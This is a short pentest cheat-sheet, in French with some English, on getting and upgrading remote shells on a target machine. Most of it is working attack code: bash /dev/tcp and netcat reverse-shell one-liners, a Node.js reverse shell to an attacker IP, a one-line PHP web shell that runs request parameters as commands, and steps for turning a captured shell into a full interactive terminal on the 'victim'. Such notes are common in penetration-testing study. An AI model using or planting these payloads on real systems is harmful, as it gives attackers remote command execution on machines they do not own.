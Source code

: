```yaml
---
description: I'll add way to get shells as i'll use them
---
```


# Get Shell

* Those lines are to use on the target, on the attacker we'll use `nc -lvpn <port>` to receive the connection.
* Check [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for more example

## Bash

```bash
# on target
bash -i >& /dev/tcp/<ip>/<port> 0>&1
# des fois il faut l'entourer ainsi
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```

* `/dev/tcp` est fournit directement par bash et n'existe que pour les redirections
* `-i` permet de créer un shell interactif
* `>&` Redirige STDOUT et STDERR du shell vers la connection
* `0>&1` Redirige STDIN \(de la co\) vers STDOUT \(de la co je pense\)
* `bash -c` permet de s'assurer que c'est bash et non un autre shell de la machine qui exécutera la commande, c'est nécessaire car /dev/tcp n'est fournit que par lui

## PHP

```php
<?php
    system($_REQUEST['cmd']);
?>
```

## Netcat

`nc -e /bin/bash <host> <port>`

## Node

```javascript
(function(){
    var cp = require("child_process");
    var sh = cp.spawn("/bin/sh", []);
    var net = require("net");
    var client = new net.Socket();
    client.connect(my_port, "my_ip", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js app from crashing
})();
```

## Metasploit

* Un shell donné par metasploit ne sera pas forcément persistant, aka tu peux utiliser que des 1 liners parce que l'état n'est pas conservé \(genre un cd te déplacera pas\)

## Upgrade your shell

* Les shells qu'on récupère ainsi sont rarement pratique, ils réagissent mal au tab, n'ont pas d'auto-completion, se ferme avec CTRL-C, etc.
* Pour récupérer un vrai shell. suivre ces étapes : 
  * Sur la victime, spawn un shell via python \(testé avec python3 si le 2 n'est pas dispo\)`python -c 'import pty; pty.spawn("/bin/bash")'`
  * Sur l'attaquant, check notre type de terminal `echo $TERM`
  * Sur la victime, export ces 2 var : `export TERM=...` & `export SHELL=/bin/bash`
  * Ctrl-z sur la victime
  * Ca nous remets sur l'attaquant, check les diffs du terminal avec `stty size`
  * Lancer \(toujours sur l'attaquant\) `stty raw -echo;fg`
  * Taper `reset`
  * Taper `stty rows ... columns ...`

